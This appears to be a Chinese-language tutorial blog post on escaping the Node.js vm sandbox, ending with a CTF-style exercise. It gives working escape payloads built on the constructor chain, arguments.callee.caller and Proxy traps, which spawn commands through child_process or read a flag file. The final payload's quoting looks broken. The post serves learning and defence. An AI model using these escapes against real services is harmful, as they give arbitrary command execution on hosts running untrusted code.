

NodeJs vm 沙箱逃逸

- - -

# NodeJs vm 沙箱逃逸

## 沙箱基本概念

沙箱是一种安全机制，为运行中的程序提供的隔离环境。通常是作为一些来源不可信、局破坏力或无法判断程序意图的程序提供实验使用

nodejs 提供了 vm 模块来创建一个隔离环境运行不受信任的代码。但是 vm 模块并不被推荐使用，因为存在逃逸的风险

## vm 板块的使用

-   **vm.createContext(\[sandbox\])：**

在使用前需要先创建一个沙箱对象，再将沙箱对象传给该方法（如果没有则会生成一个空的沙箱对象），v8 引擎为这个沙箱对象在当前 global 外再创建一个作用域，此时这个沙箱对象就是这个作用域的全局对象，沙箱内部无法访问 global 中的属性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140411-b9a6b0a0-bc10-1.png)

-   **vm.runInThisContext(code):**

在当前 global 下创建一个作用域（sandbox），并将接收到的参数当作代码运行。

这里需要注意的就是 runInThisContext 虽然是会创建相关的沙箱环境，可以访问到 global 上的全局变量，但是访问不到自定义的变量

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140416-bc53c496-bc10-1.png)

```plain
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

context = vm.createContext(sx)
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140421-bfd9f1f8-bc10-1.png)

-   **vm.runInContext(code, contextifiedSandbox\[, options\]):**

参数为要执行的代码和创建完作用域的沙箱对象，代码会在传入的沙箱对象的上下文中执行，并且参数的值与沙箱内的参数值相同。

runInContext 一定需要 createContext 创建的沙箱来进行配合运行

```plain
const vm = require("vm");

const sandbox = {
    x:2
};

vm.createContext(sandbox);

const code = 'this.toString.constructor("return process")();';

const res=vm.runInContext(code,sandbox);

console.log(res.mainModule.require('child_process').exec('calc'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140428-c3a82a8e-bc10-1.png)

-   **runInNewContext：**

执行的效果相当于 createContext 和 runInContext，相关的参数分别是 context 和要执行的代码，可以提供 context 也可以不提供，不提供的话默认生成一个 context 来进行使用

```plain
const vm = require("vm");

const code = 'this.constructor.constructor("return process")();';

const res=vm.runInNewContext(code);

console.log(res.mainModule.require("child_process").exec('calc'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140434-c76ca366-bc10-1.png)

## 沙箱逃逸原理

示例分析：

```plain
const vm = require("vm");

const code = 'this.constructor.constructor("return process")();';

const res=vm.runInNewContext(code);

console.log(res.mainModule.require("child_process").exec('calc'));
```

我们以==vm.runInNewContext==沙箱逃逸进行分析如何通过 vm 板块进行沙箱逃逸的，debug 看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140440-cae8c448-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140444-cd6ba3a2-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140448-cf7381ba-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140452-d20ba56a-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140456-d4366ca8-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140459-d666e2be-bc10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140505-d986ad6c-bc10-1.png)

通过 debug，我们可以发现，我们通过`this`指向原型链，通过原型链我们可以拿到 Function，从而发现我们可以获取到 process 对象

之后我们进一步步入，因为可以获取到 process，因此就可以调用 child\_process，从而执行 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140509-dc3fbe2c-bc10-1.png)

其实我感觉主要是理解`constructor`

```plain
function Foo(){
    name : 123
};

const a= new Foo();

console.log(a.constructor);//Foo
console.log(a.constructor.constructor);//Function
```

我们通过`this`是指向的是 Context，其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的

示例：

```plain
const vm = require("vm");

const sandbox = {
    x: []
};

vm.createContext(sandbox);

const res = vm.runInNewContext('x.constructor.constructor("return process")()',sandbox);

console.log(res.mainModule.require('child_process').exec('calc'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140521-e3a1f504-bc10-1.png)

我们这里利用的是沙箱内定义的数组 x 进行 RCE 的，而且经过测试由于数字，字符串，布尔这些都是 primitive 类型，在传参的时候将数值传递过去，而不是引用属性，无法进一步调用`constructor`

### 沙箱逃逸绕过 Object.create(null)

我们既然知道`this`是引用的 Context 从而实现 RCE 的，如果我们将原型对象设置为 null，这样的话`this.constructor`获取不到对象，从而无法进行利用

```plain
const vm = require("vm");

const sandbox = Object.create(null);

vm.createContext(sandbox);

const code = "this.constructor.constructor('return process')().env";
console.log(vm.runInContext(code,sandbox));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140533-eabc9f4c-bc10-1.png)

可以发现报错了，但是我们这里只是因为获取不到任何对象而不是不能利用

可以参考[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

利用==arguments.callee.caller==来进行绕过

arguments.callee 是 arguments 对象的一个成员，它的值为"正被执行的 Function 对象"

```plain
function Foo(){
    console.log(arguments.callee)
}
Foo();//Foo
```

arguments.callee.caller 调用当前函数的外层函数

```plain
function Foo(){
    console.log(arguments.callee.caller)
}
Foo();//anonymous
```

arguments.callee.caller 实际上是返回函数的调用者，我们之前沙箱逃逸利用的方法其实就是通过 global 中对象，并调用其方法，其实看到和 arguments.callee.caller 还是蛮像的

我们是不是可以想象一下，如果我们在沙箱内定义一个函数，在沙箱外调用这个函数，那么这个函数的 arguments.callee.caller 则会返回沙箱外的一个对象，那么我们我们就可以在沙箱内进行逃逸了

```plain
const vm = require('vm');
const func =
    `(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').exec('calc').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
console.log("" + res);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126140542-efb6d4e0-bc10-1.png)

我们创建一个 Object.create(null) 的 sandbox，之后我们定义一个 func()，将 toString() 进行重写，我们发现可以利用`arguments.callee.caller`获取沙箱外的对象，之后利用其`constructor`从而获取到`process`对象，之后再利用字符串拼接调用重写的 toString() 函数，从而进行 RCE

如果我们无法通过字符串的操作来触发 toString()，而且无法进行重写一些函数，可以利用`Proxy`来劫持属性

```plain
let proxy = new Proxy(target, handler)
```

-   `target` —— 是要包装的对象，可以是任何东西，包括函数。
-   `handler` —— 代理配置：带有“钩子”（“traps”，即拦截操作的方法）的对象。比如 `get` 钩子用于读取 `target` 属性，`set` 钩子写入 `target` 属性等等。

这里顺便介绍一下`get`钩子和`set`钩子，以便于下文理解利用二者进行劫持属性

```plain
//get
let numbers = [0, 1, 2];

numbers = new Proxy(numbers, {
  get(target, prop) {
    if (prop in target) {
      return target[prop];
    } else {
      return 0; // 默认值
    }
  }
});

alert( numbers[1] ); // 1
alert( numbers[123] ); // 0 (没有这样的元素)
```

这里我们要求读取 number 数组的第 123 个值，但是没有，于是`get`钩子拦截到返回值 0

```plain
//set
let numbers = [];

numbers = new Proxy(numbers, { // (*)
  set(target, prop, val) { // 拦截写入操作
    if (typeof val == 'number') {
      target[prop] = val;
      return true;
    } else {
      return false;
    }
  }
});

numbers.push(1); // 添加成功
numbers.push(2); // 添加成功
alert("Length is: " + numbers.length); // 2

numbers.push("test"); // TypeError（proxy 的 `set` 操作返回 false）

alert("This line is never reached (error in the line above)");
```

这里由于我们写入了一个拦截函数只接收数字的数组，我们这里 push 了一串字符串，于是拦截返回 false

利用==get==钩子

```plain
const vm = require("vm");

const script =
    `new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').exec('calc');
        }
    })
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc)
```

这里利用`get`钩子进行触发沙箱逃逸的原理是，我们在 get 钩子里写了一个恶意函数，我们在沙箱外部访问 proxy 对象的任意属性 (不论是否存在) 这个钩子就会自动运行

利用==set==钩子

```plain
const vm = require("vm");

const func =
    `new Proxy({}, {
        set: function(my,key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
res['']={};
```

这里利用`set`钩子写了一个恶意函数，因为我们写入的`set`钩子没有定义类型，当我们为{}对象添加属性时，会拦截执行我们写入的恶意函数从而实现 RCE

## 实例

```plain
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const config = {}


app.use(bodyParser.json());

app.post('/:lib/:f', (req, res) => {
  let jsonlib = require(req.params.lib);
  let valid = jsonlib[req.params.f](req.body);


  let p;
  if(config.p){
    p = config.p;
  }

  let data = fs.readFileSync(p).toString();

  res.send({
    "validator":valid,
    "data": data,
    "msg": "data is corrupted"
  })
});

const PORT = 3000;
app.listen(PORT,()=>{
  console.log(`Server is running on port ${PORT}`);
})
```

简单审计一下代码可以发现有 2 种打法

-   有 fs.readFileSync(p).toString(),直接读 flag

```plain
require('../../../../flag')
```

-   利用 vm 沙箱逃逸读文件

```plain
require('vm').vm.runInNewContext(['this.constructor.constructor('return process')().mainModule.require('fs').readFileSync('./flag').toString()'])
```

# 后记

vm2 有点看不懂了，好复杂，学不太懂，以后有机会再看

# 参考

[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

[Proxy 和 Reflect - 掘金 (juejin.cn)](https://juejin.cn/post/6844904090116292616)
